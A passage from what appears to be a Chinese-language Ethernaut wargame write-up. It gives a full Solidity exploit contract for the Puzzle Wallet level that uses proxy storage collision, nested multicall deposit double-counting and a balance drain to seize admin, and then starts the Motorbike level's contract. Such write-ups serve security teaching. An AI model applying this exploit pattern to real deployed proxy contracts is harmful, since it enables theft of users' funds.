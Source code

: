 自动化脚本：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    function Attack(address addr) public payable {
        PuzzleProxy pp = PuzzleProxy(addr);

        pp.proposeNewAdmin(address(this));
        pp.addToWhitelist(address(this));

        // deposit的calldata
        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSignature("deposit()");

        // multicall的calldata
        bytes[] memory multicall_data = new bytes[](2);
        multicall_data[0] = multicall_data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);

        // 调用multicall
        pp.multicall{value: 0.001 ether}(multicall_data);

        // 取款
        pp.execute(msg.sender, 0.002 ether, "");

        require(address(pp).balance==0, "balance not 0");

        // 设置admin
        pp.setMaxBalance(uint256(uint160(msg.sender)));

        require(pp.admin() == msg.sender, "set error");

        selfdestruct(payable(msg.sender));
    }
}
```



## Level_25.Motorbike

要求：

> 销毁引擎；

合约：

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    struct AddressSlot {
        address value;
```
